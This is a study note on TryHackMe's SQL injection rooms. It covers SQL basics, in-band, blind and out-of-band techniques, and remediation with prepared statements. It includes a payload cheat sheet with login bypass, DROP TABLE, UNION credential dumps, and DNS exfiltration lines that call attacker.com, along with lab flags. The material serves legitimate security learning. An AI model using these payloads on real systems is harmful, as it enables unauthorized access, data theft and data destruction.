




# SQL Injection Introduction

Learn how to detect and exploit SQL Injection vulnerabilities.

**_Contains both [SQL Injection](https://tryhackme.com/room/sqlinjectionlm) and [SQL Injection Introduction](https://tryhackme.com/room/sqlinjectionintroduction) rooms_**

# SQL Injection

**SQL Injection (SQLi)** is one of the most well-known and dangerous web application vulnerabilities, listed under OWASP's Injection category. It occurs when an attacker manipulates the SQL queries a web application sends to its database, with consequences ranging from unauthorized data access and bypassed authentication to full compromise of the database server. Despite being one of the oldest vulnerability classes in web security, it remains at the root of major real-world data breaches.

## SQL Essentials for Injection
 
**What is SQL?** 

SQL, which stands for Structured Query Language, is a standardized programming language used to store, manage, and retrieve data stored in relational databases. SQL syntax is not case-sensitive, and changes according to the DB (exact syntax varies slightly between MySQL, PostgreSQL, SQL Server, etc.); examples below use MySQL.

Before the injection techniques themselves, a few SQL building blocks make the payloads make sense.

### Core statements

| Statement | Purpose | Example |
|---|---|---|
| **SELECT** | Retrieve data | `SELECT * FROM users;` |
| **WHERE** | Filter which rows are returned | `SELECT * FROM users WHERE username='admin';` |
| **LIKE** + wildcards | Pattern-match strings. `%` matches any sequence, `_` matches exactly one character | `SELECT * FROM users WHERE username LIKE 'adm%';` → matches admin, administrator, etc. |
| **LIMIT** | Restrict rows returned; `LIMIT offset, count` skips rows then returns a count | `SELECT * FROM users LIMIT 2,1;` → skips 2 rows, returns the 3rd |
| **UNION** | Combines results from two or more `SELECT` statements into one result set | `SELECT name FROM customers UNION SELECT company FROM suppliers;` |
| **INSERT** | Add a new row | `INSERT INTO users (username,password) VALUES ('bob','pw123');` |
| **UPDATE** | Modify existing row(s) | `UPDATE users SET password='new' WHERE username='admin';` |
| **DELETE** | Remove row(s). No `WHERE` clause deletes *everything* | `DELETE FROM users WHERE username='martin';` |

**UNION's one hard rule**: both `SELECT` statements must return the same number of columns, with compatible data types, in the same order. This single rule is exactly what makes Union-Based SQLi both a technique (an attacker must match column count to append their own data) and a detectable fingerprint (mismatched column-count errors are the giveaway).

### SQL Comments
Comments tell the database to ignore everything after them on the line. Critical for injection, since leftover syntax after an injection point would otherwise cause an error.

- `--` (double dash + space) or `#` → single-line comment (MySQL)
- `/* ... */` → multi-line comment

Example: injecting `admin'--` into a username field turns:
```sql
SELECT * FROM users WHERE username='INPUT' AND password='secret';
```
into:
```sql
SELECT * FROM users WHERE username='admin'-- AND password='secret';
```
Everything after `--` is ignored, and the password check never runs.

### String functions used in extraction
- **`group_concat()`**: merges values from multiple rows into a single comma-separated string, e.g. `group_concat(username,':',password SEPARATOR '<br>')` → `admin:pass123<br>martin:secret`. Useful because injection often only has *one* usable output column to work with, so cramming multiple rows/values into that one string is essential.
- **`CONCAT()`**: joins individual values together for a single row, e.g. `CONCAT(username,':',password)` → `admin:pass123`.

### The `information_schema` database
Every MySQL, MariaDB, and PostgreSQL server has a built-in database called **`information_schema`**. It contains metadata about every other database on the server (database names, table names, column names, data types). It's effectively the database's map of itself, and it's the mechanism that turns "I found an injection point" into "I know the entire structure of this database":
- **`information_schema.tables`**: lists every table (`table_schema` = database name, `table_name` = table name)
- **`information_schema.columns`**: lists every column (`table_name` + `column_name`)

**Note on database engines**: all of the above (and the payloads throughout this writeup) use **MySQL** syntax. MSSQL, PostgreSQL, SQLite, and Oracle each have their own comment syntax, system tables, and functions. The core concepts transfer directly, but exact payloads differ per engine.

**Q&A**
- What SQL statement combines results from two SELECT queries into one result set? **UNION**
- What built-in database contains metadata about all other databases/tables/columns in MySQL? **information_schema**


## What is a Database?

### About Databases
- A database is a way of electronically storing a collection of data in an organized manner.
- A database is managed by the DBMS (Database Management System).
- Two types of DBMSs: **Relational** and **Non-relational** database.
- Relational DB examples: MySQL, SQLite, Microsoft SQL, etc.

### Relational Database
- A **relational database** stores data in structured **tables** made up of rows and columns.
- Tables can be connected using relationships such as **primary keys** and **foreign keys**.
- Relational databases generally use **SQL (Structured Query Language)** to store, retrieve, and manage data.
- They are suitable when data has a clear and consistent structure.
- Examples: MySQL, PostgreSQL, Oracle, Microsoft SQL Server.

### Non-Relational Database
- A **non-relational database (NoSQL)** does not require data to be stored in traditional tables with fixed rows and columns.
- It can store data as **documents, key-value pairs, graphs, or wide-column structures**.
- These databases are useful when data is large, unstructured, or changes frequently.
- Examples: MongoDB, Redis, Cassandra, Neo4j.

| Difference | Relational | Non-Relational |
|---|---|---|
| Data structure | Tables (rows & columns) | Documents, key-value, graphs, etc. |
| Schema | Usually fixed/structured | Flexible |
| Relationships | Strong support using keys | Usually less dependent on relationships |
| Query language | SQL | Varies by database |
| Best suited for | Structured, consistent data | Flexible or rapidly changing data |
| Example | **MySQL** | **MongoDB** |

**Simple example:** A college database containing students, courses, and marks would typically use a relational database because the data has clear relationships. A social-media application storing varied user posts, comments, and profiles might use a non-relational database because the data structure can vary.

### Tables, columns, and rows
- A **table** is a grid: columns run left to right, rows run top to bottom.
- Each **column (field)** has a name and data type (integer, string, date, etc.); a column can be set to **auto-increment**, creating a **key field** with a guaranteed unique value per row, used to pinpoint exact rows.
- Each **row (record)** is one entry; adding data creates a row, deleting data removes one.


*One database server can host multiple separate databases, each with its own tables.*

**Q&A**
- Acronym for the software that controls a database? **DBMS**
- Name of the grid-like structure that holds the data? **table**

## What is SQL Injection?

**Definition**: SQL injection is a web security vulnerability where an attacker inserts malicious SQL commands into input fields such as the search bar or login box to trick the application into running unintended database queries.

### The sequence of events
1. **The User Inputs Data**: The user types input into a form field (like a login or search box).
2. **The App Builds a Query**: The web application takes that input and drops it directly into a SQL string without validating or parameterizing it.
3. **The Database Executes the Code**: The database reads the user's input as an instruction (not just text) and runs it.
4. **The App Responds (Optional)**: The web application sends a response back to the user based on what the database did.



The vulnerability lives specifically at step 2. The moment raw user input becomes part of the actual SQL command, rather than being treated purely as data.

### Example SQL injection queries
| Injected input | Effect |
|---|---|
| `' OR 1=1;--` | Turns a login check into an always-true condition, bypassing authentication |
| `1; DROP TABLE users;--` | Appends a destructive command to delete an entire table |
| `' UNION SELECT username, password FROM users;--` | Pulls extra data (e.g. credentials) into the page's normal output |
| `admin'--` | Comments out the rest of a query (e.g. a password check) so only the first condition matters |

**Worked example** (how this plays out on a real URL): a blog at `https://website.thm/article?id=1` likely runs:
```sql
SELECT * FROM articles WHERE id = 1 AND public = 1;
```
If the server builds this by directly concatenating the URL parameter (e.g. in PHP: `"... WHERE id = " . $_GET['id'] . " AND public = 1;"`), then requesting `?id=1 OR 1=1--` produces:
```sql
SELECT * FROM articles WHERE id = 1 OR 1=1-- AND public = 1;
```
`OR 1=1` makes the condition always true, and `--` comments out the `public = 1` check — every article is now returned, private ones included.

### The three types of SQL Injection

| Type | Definition | How feedback is received |
|---|---|---|
| **In-Band** | Results of the injection are returned directly in the application's response (webpage). The same channel used to attack is used to read results | Direct and immediate |
| **Blind** | The application shows no query results or error messages; success must be inferred from indirect signals | Indirect: behavior change, true/false, or response timing |
| **Out-of-Band** | The attacker forces the database server to make an *external* network request (e.g. DNS/HTTP) that carries data out through a completely separate channel | Delivered via a different channel entirely (used when neither of the above works) |

**Subtypes:**



### Detecting SQL Injection
Test every input that touches the database: URL parameters, form fields, cookies, HTTP headers:
- Inject a single quote `'`: a raw database error suggests unsanitized input.
- Try `"`: some queries use double quotes instead.
- Inject `;--`: If behavior changes, comment syntax is being processed.
- Test `OR 1=1`: If results change, the input sits directly in the query's logic.

If errors are suppressed, fall back to Boolean-based (behavioral difference) or Time-based (response delay) detection.

**Q&A**
- What character is commonly used as a first test when probing for SQLi? **`'`**
- What type of SQLi returns results directly in the web page? **In-Band**

## In-Band SQL Injection

The same channel delivers the attack and returns the results, making this the easiest category to detect and exploit.

### Error-Based
Exploits raw database error messages shown to the user. A misconfigured application leaking errors like *"You have an error in your SQL syntax... near ''1''..."* reveals the database engine, query structure, and quoting style, all useful for crafting more precise payloads.

### Union-Based
Uses `UNION` to append an attacker-controlled `SELECT` onto the legitimate query, pulling data from any table the database user can access. The general methodology:

1. **Determine column count**: increment `UNION SELECT 1`, `1,2`, `1,2,3`... until the error disappears.
2. **Identify which columns render on the page**: set the original query's ID to `0` (or another value producing no real result) so only the injected `UNION` row displays; note which column position(s) actually show up in the visible content.
3. **Extract the database name**: replace a visible column with `database()`.
4. **Enumerate tables**: query `information_schema.tables WHERE table_schema = '<db_name>'`, using `group_concat()` to fit multiple results into one column.
5. **Enumerate columns**: query `information_schema.columns WHERE table_name = '<target_table>'`.
6. **Extract data**: `group_concat(username,':',password SEPARATOR '<br>') FROM <target_table>`.

*Why it works this way*: the column count must match because that's literally how `UNION` is defined by SQL. `0`/`-1` forces the real query to return nothing so the injected data is what actually renders. `information_schema` works because it's the database's own self-documentation, accessible to any user with query access.

**Q&A**
- Subtype of In-Band SQLi that relies on error messages? **Error-based**
- SQL function that returns the current database name in MySQL? **`database()`**


## Blind SQL Injection: Authentication Bypass

**Blind SQLi** occurs when the application shows no query results or error messages; the injection still executes, but success has to be inferred from application *behavior* instead.

### **Authentication bypass**

Authentication bypass is the most intuitive form: the goal isn't extracting data, just making a login query evaluate to *true*. 

A typical login query:

```sql
SELECT * FROM users WHERE username='%username%' AND password='%password%' LIMIT 1;
```
Entering `' OR 1=1;--` as the username produces:
```sql
SELECT * FROM users WHERE username='' OR 1=1;--' AND password='anything' LIMIT 1;
```
- `username=''` matches nothing on its own
- `OR 1=1` is always true, so the *entire* `WHERE` clause becomes true
- `;--` comments out everything after it, including the password check
- The database returns every row; the app sees rows returned and logs the attacker in (often as the first/admin user)

**Targeting a specific account**: injecting `admin'--` as the username (with the password check commented out entirely) logs in as `admin` specifically, without ever needing the real password.

**Variations to try**: `' OR 1=1;--` (single-quote fields), `' OR 1=1#` (MySQL `#` comment), `" OR 1=1--` (double-quote fields), and test both username *and* password fields, since only one may actually be concatenated into the query.

**Q&A**
- Boolean condition commonly injected to make a WHERE clause always true? **`1=1`**

### Boolean-Based & Time-Based

Both extract actual data (not just a login bypass) when the application gives no visible query output by asking the database yes/no questions, one character at a time.

### Boolean-Based
Relies on a two-state signal the app already gives you, different page content, a JSON flag like `{"taken":true/false}`, etc. 

Example: confirming injection with a wildcard that's always true
```sql
admin123' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
```
then narrowing character by character:
```sql
... LIKE 'a%';--   → false
... LIKE 's%';--   → true   (first letter confirmed: s)
... LIKE 'sq%';--  → true   (second letter: q)
```
...continuing until the full database name, then table names (via `information_schema.tables`), column names (via `information_schema.columns`), and finally actual data values are all recovered purely from watching a true/false flip.

### Time-Based
Used when there's *no* visible signal at all, not even a true/false difference. MySQL's `SLEEP(x)` function only executes if the injected condition is true, so a delayed response = true, an immediate response = false:
```sql
admin123' UNION SELECT SLEEP(5),2 WHERE database() LIKE 's%';--
```
The same character-by-character enumeration process as Boolean-based applies, just measured in seconds instead of read from the page.

(⚠️ Network latency can produce false positives. Use longer sleep values like 5–10s and re-test characters to confirm. MSSQL's equivalent is `WAITFOR DELAY '0:0:5'`.)

### When to use which

| Scenario | Technique |
|---|---|
| App shows different content for true vs. false | Boolean-Based |
| App response looks identical no matter what | Time-Based |
| Time-based is blocked or too unreliable, but the DB server has outbound network access | Out-of-Band |

**Q&A**
- MySQL function that causes a deliberate time delay in a query's response? **`SLEEP()`**


## Out-of-Band SQL Injection

**Out-of-Band (OOB)** SQLi is used as a last resort. When In-Band gives no visible output, Boolean-based gives no behavioral difference, and Time-based is too unreliable or blocked. It requires **two separate channels**: one to deliver the attack, and a completely different one (usually DNS or HTTP) to receive the exfiltrated results. Critically, it only works if **the database server itself has outbound network access**. If a firewall blocks all outbound traffic from the DB server, OOB isn't viable.




### DNS exfiltration (MySQL)
`LOAD_FILE()` can be abused to trigger a DNS lookup, embedding stolen data as a subdomain:
```sql
SELECT LOAD_FILE(CONCAT('\\\\', (SELECT database()), '.attacker.com\\share'));
```
This builds a UNC path like `\\webapp_db.attacker.com\share`; on Windows-based MySQL servers, `LOAD_FILE()` attempting to resolve that path triggers a DNS lookup for `webapp_db.attacker.com` — which an attacker-controlled DNS server logs, capturing the database name in the subdomain itself.

### MSSQL techniques
- **`xp_dirtree`** triggers a DNS lookup by trying to list a remote directory: `EXEC master..xp_dirtree '\\attacker.com\share';` : enabled by default, commonly usable.
- **`xp_cmdshell`** (if enabled) runs OS commands directly, e.g. triggering `nslookup` or `curl` to ship data out — disabled by default in modern MSSQL.

### Receiving the data
Something has to be listening for the callback:
- **Burp Collaborator**: gives a unique subdomain, logs DNS/HTTP requests to it.
- **Interactsh** (ProjectDiscovery): free, self-hostable equivalent.
- **A custom listener**: e.g. a Python DNS server, for full control.

### Limitations
- Requires the database server to have outbound network access (often restricted in production).
- Payloads are engine-specific (MySQL/MSSQL/PostgreSQL each differ).
- DNS subdomain labels are capped at 63 characters which limits how much data one lookup can carry.
- Generally slower and less reliable than direct extraction.

**Q&A**
- Protocol beginning with D commonly used to exfiltrate data in OOB SQLi? **DNS**
- MSSQL stored procedure that can trigger DNS lookups for exfiltration? **`xp_dirtree`**


## Remediation and Prevention

Roughly ordered from strongest to weakest/supplementary:

### Prepared Statements (Parameterized Queries): *the primary defense*
**Definition**: a technique where the **SQL query's structure is written and compiled first, with user input passed in *separately* as bound parameters rather than concatenated into the query string**. Because the query structure is fixed before any user input arrives, **the database always distinguishes code from data. User input can never be reinterpreted as SQL syntax, no matter what characters it contains.**

Vulnerable (PHP):
```php
$query = "SELECT * FROM users WHERE username='" . $_POST['username'] . "'";
```
Fixed (PHP, PDO):
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$_POST['username']]);
```
Fixed (Python):
```python
cursor.execute("SELECT * FROM users WHERE username = %s", (username,))
```
The database driver fills in the placeholder (`?` or `%s`) as a literal value, even a malicious string like `' OR 1=1--` is treated as one plain string, never as part of the query's logic.

### Input Validation
**Definition**: **checking and restricting user input against an expected format *before* it ever reaches the database**. Ideally via **allow-listing** (defining exactly what's valid and rejecting everything else) rather than **block-listing** (trying to filter out "bad" characters, which attackers reliably bypass through encoding tricks or unexpected syntax). Example: if a parameter should be a numeric ID, reject anything that isn't purely digits before it's used. Input validation is a useful supplement, never a substitute for prepared statements.

### Escaping User Input
**Definition**: prefixing SQL's special characters (`' " $ \`) with a backslash so the database engine treats them as literal text rather than syntax: e.g., `'` becomes `\'`. This is an older, weaker, database-engine-specific technique (different engines escape differently), best treated as a last resort for legacy code that can't easily be refactored to use prepared statements.

### Principle of Least Privilege
**Definition**: a broader security principle stating that any account or process, including the database account a web application connects with, should be granted only the minimum permissions it actually needs. A read-only application's DB account should have `SELECT` only; applications should never connect as `root`/`sa`; sensitive tables should only be reachable by the specific processes that need them. This doesn't prevent SQLi, but it limits the damage if an injection does succeed — an attacker stuck with a low-privilege account can't drop tables or reach other databases.

### Web Application Firewalls (WAFs)
**Definition**: a security layer that inspects incoming HTTP requests and blocks known malicious patterns (`' OR 1=1`, `UNION SELECT`, `information_schema`, etc.) before they reach the application. Useful as an additional layer, but not a substitute for secure code — experienced attackers routinely bypass WAFs using encoding tricks, alternate syntax, or obfuscation.

**Q&A**
- Name a method of protecting against SQLi: **Prepared statements**


## Practical Labs

Both rooms' hands-on lab work (Union-Based, Authentication Bypass, Boolean-Based, and Time-Based levels, with screenshots and full payload walkthroughs) is documented separately in **[SQL-Injection-Practical.md](https://github.com/angeline-infosec/notes/blob/main/Web/SQL-Injection-Practical.md)**.

**Flags for reference:**

| Level | Technique | Flag |
|---|---|---|
| 1 | Union-Based (In-Band) | `THM{SQL_INJECTION_3840}` |
| 2 | Authentication Bypass (Blind) | `THM{SQL_INJECTION_9581}` |
| 3 | Boolean-Based (Blind) | `THM{SQL_INJECTION_1093}` |
| 4 | Time-Based (Blind) | `THM{SQL_INJECTION_MASTER}` |


## Cheat Sheet: Common SQLi Payloads

| Purpose | Payload | Notes |
|---|---|---|
| Basic probe | `'` or `"` | Trigger a raw error to confirm injection |
| Comment out rest of query | `--` (space after), `#`, `/* */` | MySQL; syntax varies by engine |
| Always-true condition | `' OR 1=1;--` | Classic auth bypass / logic break |
| Target a specific user | `admin'--` | Comments out password check entirely |
| Column count discovery | `' UNION SELECT 1;--` → `1,2` → `1,2,3`... | Increment until error disappears |
| Force injected row to display | Set ID/value to `0` or `-1` | Suppresses the real row so only injected data renders |
| Get current database name | `UNION SELECT 1,2,database();--` | |
| List tables | `UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='<db>';--` | |
| List columns | `UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name='<table>';--` | |
| Dump credentials | `UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM <table>;--` | |
| Boolean test (character-by-character) | `' AND <column> LIKE 'a%';--` | Cycle through characters watching for true/false |
| Time-based test | `' UNION SELECT SLEEP(5),2;--` | Delay = true, immediate = false; MSSQL: `WAITFOR DELAY '0:0:5'` |
| DNS exfiltration (MySQL, Windows) | `SELECT LOAD_FILE(CONCAT('\\\\',(SELECT database()),'.attacker.com\\share'));` | Requires outbound DB server access |
| DNS exfiltration (MSSQL) | `EXEC master..xp_dirtree '\\attacker.com\share';` | |


## Key Takeaways
- **SQLi happens when unvalidated user input becomes part of an executed SQL command instead of staying pure data.**
- Three types: **In-Band** (results visible directly), **Blind** (yes/no or timing only), **Out-of-Band** (results exfiltrated via a separate channel like DNS).
- `UNION`'s matching-column-count requirement is the reason column-count probing (`1`, `1,2`, `1,2,3`...) is always step one.
- `information_schema` turns a confirmed injection point into full knowledge of a database's structure.
- The strongest defense is **prepared statements/parameterized queries**; input validation, escaping, least privilege, and WAFs are supplements, not substitutes.
